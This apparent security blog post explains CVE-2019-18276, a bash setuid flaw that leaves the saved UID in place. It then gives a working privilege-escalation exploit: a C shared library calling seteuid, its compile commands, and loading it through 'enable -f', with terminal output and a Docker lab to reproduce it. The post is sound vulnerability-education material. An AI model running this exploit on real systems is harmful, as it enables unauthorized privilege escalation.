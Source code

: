```yaml
---
title: "CVE-2019-18276 - Suidbash"
tags: ["cve", "bash", "privilege-escalation"]
date: 2019-11-28T23:13:39+01:00
comments: true
draft: false
---
```


This exploit was initially based on an older vulnerability back in 1999 (`suidperl`). Now after 20 years in 2019 we found the same vulnerability in bash (`CVE-2019-18276`) was discovered by Ian Pudney.

## TL;DR
The root cause of this vulnerability is that bash doesn't handle setuid bit correctly, by default bash will drop the SUID privilege if the **Real UID** is different from the **Effective UID**, but it forget to drop also the **Saved UID**. Before we continue let's first define :

## Real UID vs Effective UID vs Saved UID

* **Real UserID** : It is the owner of the process.
* **Effective UserID** : By default it is the same as Real UserID, but sometimes it is changed to give more privilege to the user, e.g : setuid bit.
* **Saved UserID** : Sometimes when a privileged user (generally root) wants to do some non-privileged activities, this can be achieved by temporarily switching to non-privileged account.


## setuid() vs seteuid()

* **setuid()** : This function will change both the (`Real UserID`, `Effective UserID` and `Saved UserID`) of the current process to the specified value.
* **seteuid()** : This function will change the `Effective UserID` to the specified value. The effective user ID may be set to the value of the real user ID or the saved set-user-ID.

### Example
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
printf("UID = %d , eUID = %d \n",getuid(),geteuid());
system("id");
seteuid(1001);
printf("UID = %d , eUID = %d \n",getuid(),geteuid());
system("id");
}
```
After compiling this code we need to specify the setuid  bit on the binary and run it from a different user.
```bash
alice@suidbash:/CVE-2019-18276$ ls -la
total 24
drwxrwxrwt 1 alice  alice  4096   Nov 29 09:59 .
drwxr-xr-x 1 alice  alice  4096   Nov 28 21:42 ..
-rwsr-xr-x 1 bob    bob    8587   Nov 29 09:59 uid
-rwsr-xr-x 1 bob    bob    959120 Nov 28 21:49 bash
alice@suidbash:/CVE-2019-18276$ ./uid 
UID = 1001 , eUID = 1000 
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
UID = 1001 , eUID = 1001 
uid=1001(alice) gid=1001(alice) groups=1001(alice)
```

As we can see the binary bash is set with the setuid bit, which mean that if `alice` user run this binary, she will get automatically `bob`'s privilege. However this will not happen with bash, because bash by default drops automatically the privilege if the user didn't specify the `-p` option.

```shell
alice@suidbash:/CVE-2019-18276$ ./bash 
bash-4.2$ id
uid=1001(alice) gid=1001(alice) groups=1001(alice)

alice@suidbash:/CVE-2019-18276$ ./bash -p
bash-4.2$ id
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
```
>  We are not sure if bash uses `seteuid()` function to drop the privilege, but after some testing we figure out that the `Saved UID` didn't change.

## The Attack
bash doesn't handle setuid bit correctly, which makes us able to recover the dropped privilege. To exploit this vulnerability we need to call the `seteuid()` function in order to recover the Saved UID. However the problem here is that we cannot exploit this by calling a binary to execute `seteuid()`, we need to call the `seteuid()` in the process runtime.

### enable -f
`enable` is a bash function that can be used to enable and disable builtin shell commands, and with option `-f` we can load a shared object.

### Exploit
```c
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
// gcc -c -fPIC pwn.c -o pwn.o
// gcc -shared -fPIC pwn.o -o libpwn.so
void __attribute__ ((constructor)) initLibrary(void){
    seteuid(1000); // The Saved UID that we want to recover
}
```
After compiling the code all what we need to do is :
```shell
alice@suidbash:/CVE-2019-18276$ ./bash 
bash-4.2$ id      
uid=1001(alice) gid=1001(alice) groups=1001(alice)
bash-4.2$ enable -f ./libpwn.so asd
bash: enable: cannot find asd_struct in shared object ./libpwn.so: ./libpwn.so: undefined symbol: asd_struct
bash-4.2$ id
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
bash-4.2$ 
```
As you can see we have successfully recovered the dropped privilege.

### Download:
To repeat all the steps :
```shell
amriunix@hunter:~$ docker run -it -u alice -h suidbash amriunix/cve-2019-18276 /bin/bash
alice@suidbash:/$ cd CVE-2019-18276/
alice@suidbash:/CVE-2019-18276$ ls -la
total 980
drwxr-xr-x 2 alice alice   4096 Nov 29 10:57 .
drwxr-xr-x 1 root  root    4096 Nov 29 11:22 ..
-rwsr-xr-x 1 bob   bob   959120 Nov 28 21:49 bash
-rwxr-xr-x 1 alice alice   7876 Nov 28 21:52 libpwn.so
-rw-r--r-- 1 alice alice    138 Nov 28 21:47 pwn.c
-rw-r--r-- 1 alice alice   1608 Nov 28 21:52 pwn.o
-rwsr-xr-x 1 bob   bob     8587 Nov 29 10:57 uid
-rw-r--r-- 1 root  root     206 Nov 29 10:57 uid.c
alice@suidbash:/CVE-2019-18276$ 
```

#### References:
* [liveoverflow](https://www.youtube.com/watch?v=-wGtxJ8opa8)